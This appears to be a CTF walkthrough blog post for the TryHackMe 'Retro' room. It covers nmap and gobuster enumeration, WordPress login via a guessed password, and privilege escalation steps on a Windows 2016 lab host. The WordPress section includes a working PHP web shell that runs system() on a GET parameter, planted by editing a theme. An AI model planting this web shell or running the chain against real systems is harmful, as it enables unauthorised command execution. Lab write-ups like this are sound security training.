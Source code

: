 ```yaml
---
title: Retro

date: 2022-07-05 18:32:00 -0500
categories: [Walkthrough, Tryhackme]
tags: [nmap, gobuster, wordpress]
---
```


TryHackMe CTF Box - New High Score!

[https://tryhackme.com/room/retro](https://tryhackme.com/room/retro)

![0xskar](/assets/retro.jpg)

* * *

## Pwn

Can you time travel? If not, you might want to think about the next best thing.

* * * 

##  Nmap Scans

- initial ``nmap -Pn -sS -p- 10.10.85.75 -vvv``
- secondary ``nmap -sC -sV -p80,3389 10.10.85.75``

##   Port 80

```shell
PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
```

##   Port 3389

```shell
3389/tcp open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-07-04T16:21:57
| Not valid after:  2023-01-03T16:21:57
| MD5:   8d0b 3ecc 83b6 d988 6316 15b1 7479 0dc7
| SHA-1: b904 cda6 d6c1 1824 98f2 1bda ff45 966f ff10 2f9b
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQSXN76AiHMrBMfQDmsVszbDANBgkqhkiG9w0BAQsFADAT
| MREwDwYDVQQDEwhSZXRyb1dlYjAeFw0yMjA3MDQxNjIxNTdaFw0yMzAxMDMxNjIx
| NTdaMBMxETAPBgNVBAMTCFJldHJvV2ViMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEAnTUxUR3NlTd/EfOaRjv2aZU4K9uAMlOKeUxcWnakWVSxUAoDW2el
| KKFbmCJG36CSSun6/ixtiPgYNUJOMIusbyOz2K2d0joQPiyCqO8sfqFEeAKeak5I
| rGS/bjhvqXNpghCNO4+SHoS64jTyqYpgWhHFWSKjyO4Ja0qLxltuqX1jt2KxNsWy
| VynJUXBPi3wd0cqqFoktixdyFVc+aFck32x5kdREcT/lg6Op2hpyvs9EytS5ZqNv
| iVc7pxJexPvfhORqR1NXaSCzJhsljL0UaqFr1H8lVOwosAfU3HQoPnmD8kgpiaOx
| 4tyDZDWj4755d2+dUL3bF3eJ0VaraAdzlwIDAQABoyQwIjATBgNVHSUEDDAKBggr
| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBACtAy3coYy5G
| 2uoxwW46+u8O72GJs9+Qfiiht2dUXdbuWSx5xLD7/tsDGW8TEgm/rZj1NXUWUe0o
| 8DzbpjaotEesF+gkJFkQmik7yEKE0mKVkrcNjVi3XzXhzFJSy2Hg3x8TODCehEIa
| TDZOjg51f3airpKrGigNYGfvUmrCFC4Gkw3qFZ6DArUA2k36zusZfvTphzvuam05
| RSF5kL99vnBr//8DO+7BmPPOOCIA4UwTp4tWilox5/9CXbogdyxOyst+Ouofu/0n
| 9ktJO4PYBnoBjKiEK0QcAeIleZ3SYAGNfsDPc/vJHM9uUarlQX89Xos4bvFuJ4wU
| XtdQmKlzGCw=
|_-----END CERTIFICATE-----
|_ssl-date: 2022-07-05T16:28:10+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2022-07-05T16:28:07+00:00
```

* * * 

##  Web Server Enumeration

- ``gobuster dir -u http://10.10.85.75/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -x txt,html,php,asp,aspx -t 100 -z``
- we find a webpage we can visit http://10.10.85.75/retro/ lets enumerate further
- ``gobuster dir -u http://10.10.85.75/retro/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -x txt,html,php,asp,aspx -t 100 -z``
- its a wordpress site. lets run ``wpscan``
- ``wpscan --url http://10.10.85.75/retro/ -v --api-token my api token -e vp``
- XML-RPC is enabled we can use [WPxploit](https://github.com/relarizky/wpxploit/blob/master/README.md)
- http://10.10.85.75/retro/wp-login.php Need to find a username
- checking out the main page we can see Wade is an author.
- One of his first posts is a hint? ~~"I keep mistyping the name of his avatar whenever I log in but I think I’ll eventually get it down."~~ parzival? Lol we're in...

* * * 

##  Wordpress

Edit the theme and lets inset this code to get some system information

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

* * * 

##  Windows

We can login on RDP Client with credentials Wade/parcival and get the first flag

- The machine is a Windows 2016 server.
- upload meterpreter shell and try to get root
- upload winpeasx64 and scan
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
- exploit!
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213

* * * 


##   Answer the questions below

**A web server is running on the target. What is the hidden directory which the website lives on?**

- /retro/

**user.txt**

![0xskar](/assets/retro03.png)

**root.txt**

![0xskar](/assets/retro04.png)

* * * 


